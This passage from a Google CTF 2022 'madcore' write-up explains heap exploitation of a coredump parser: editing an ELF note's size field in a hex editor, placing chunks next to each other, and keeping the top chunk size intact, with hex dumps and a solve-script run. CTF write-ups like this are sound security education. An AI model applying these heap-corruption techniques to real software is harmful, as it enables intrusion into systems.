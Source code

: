 however, the layout will be different if we pass huge size as this is the condition that has to be fulfilled in order to allocate all filename chunks:
```cpp
if (size <= index)
```
so, if size will be huge, the `Backtrace` chunk will land just after the allocated chunk. We just have to make sure the top chunk size bytes won't change because
otherwise next `malloc()` call will crash. As I am not really familiar with _coredump_ file structure, I added breakpoint in `Corefile::ParseNtFile()` function
and looked for offset where the `elf64_note` lies.
+ the `RSI` register contained address that is placed at offset `0xd68` of _coredump_ file buffer.
+ `malloc()` was invoked with value `0xf8` so the initial size is: `0xf8 >> 3 = 0x1f`

I opened the _coredump_ file in `nvim` using command: `$ nvim -b core` and `:%!xxd` inside `nvim` to edit it in more human-friendly format.

It was quite easy to find the correct offset:

```python
00000d60: 0000 0000 0000 0000 0500 0000 7108 0000  ............q...
                                         ============== size
                                        \/
00000d70: 454c 4946 434f 5245 0000 0000 1f00 0000  ELIFCORE........
00000d80: 0000 0000 0010 0000 0000 0000 0080 7b2f  ..............{/
```

and replace the value with `0x2000000000000020`.
To save the file in `nvim` we have to execute `:%!xxd -r` and `:w` to write the file.

```python
00000d60: 0000 0000 0000 0000 0500 0000 7108 0000  ............q...
                                        ===============================\
                                        \___ ____                       \ size
00000d70: 454c 4946 434f 5245 0000 0000 2000 0000  ELIFCORE.... ...     / 0x2000000000000020
                   ====================================================/ 
          ____ ___/
00000d80: 0000 0020 0010 0000 0000 0000 0080 7b2f  ... ..........{/
```

and after running the program with a changed size:

```bash
➜  writeup git:(main) ✗ ./solve.py CORE=crash/core.1001.14162.1657865437 
[*] len: 507904
[*] Switching to interactive mode
malloc(): corrupted top size
[*] Got EOF while reading in interactive
```

Last step here will be finding offset of the data that overwrites the top chunk size and replace it with value `0xc8d1`
(the size after `malloc()` is invoked in the `Corefile::ParseNtFile()`).
I found it simply by:
1. find address of top chunk after `malloc()` call in `Corefile::ParseNtFile()`
2. check the value of that address after `Corefile::ParseNtFile()` function returns
3. find first occurence of that value in _coredump_ file


[googlectf]:    https://capturetheflag.withgoogle.com/challenges/pwn-madcore
[madcore_zip]:  https://embe221ed.dev/files/CTFs/GoogleCTF/2022/pwn/madcore/madcore.zip